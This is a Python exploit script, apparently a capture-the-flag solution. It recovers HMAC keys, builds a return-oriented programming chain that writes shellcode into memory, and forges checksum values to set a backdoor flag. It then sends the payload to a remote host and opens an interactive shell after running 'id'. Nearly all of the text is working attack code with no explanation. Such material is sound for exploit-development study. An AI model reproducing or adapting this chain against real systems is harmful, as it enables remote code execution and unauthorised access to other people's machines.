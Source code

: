 ``` python

hmac_result = pop_rdi_ret
hmac_keys = None
# hmac_keys = ( 0x0000000000000000, 0x5640a3545cc47728, 0xc7c237690640b388 )
if hmac_keys is None:
    hmac_keys = unhmac(hmac_result) # this took 20sec on my environment.
    log.info('hmac keys: ( 0x%016x, 0x%016x, 0x%016x )', *hmac_keys)
assert hmac(hmac_keys) == hmac_result

payload = ''
# construct a better gadget using a heavy one
def write(addr, s):
    payload = ''
    for i, c in enumerate(s):
        payload += p64(pop_rcx_mov_rax_r14_ret)
        payload += p64(ord(c))
        payload += p64(pop_rsi_rdi_ret)
        payload += p64(addr + i + 0x39)
        payload += 'AAAAAAAA'
        payload += p64(mov_eax_esi_ret)
        payload += p64(add_rax_cl_ret)
    return payload
payload += write(mov_rdi_rsi_ret, mov_rdi_rsi_ret_asm)
# write shellcode using the new gadget
def write(addr, s):
    s += '\0' * (- len(s) % 8)
    payload = ''
    for i in range(0, len(s), 8):
        payload += p64(pop_rsi_rdi_ret)
        payload += s[i : i+8]
        payload += p64(addr + i)
        payload += p64(mov_rdi_rsi_ret)
    return payload
payload += write(shellcode_addr, shellcode)
# jump to the shellcode
payload += p64(shellcode_addr)
# set the values for the backdoor using hmac
payload += 'A' * (1520 - len(payload) - 8*4)
payload += p64(xorsum(payload) ^ hmac_keys[0] ^ hmac_keys[1] ^ hmac_keys[2])
payload += p64(hmac_keys[1])
payload += p64(hmac_keys[2])
payload += p64(1) # set the flag
assert len(payload) == 1520

p = remote(args.host, args.port)
p.send(payload)
time.sleep(1)
p.sendline('id')
p.interactive()
```
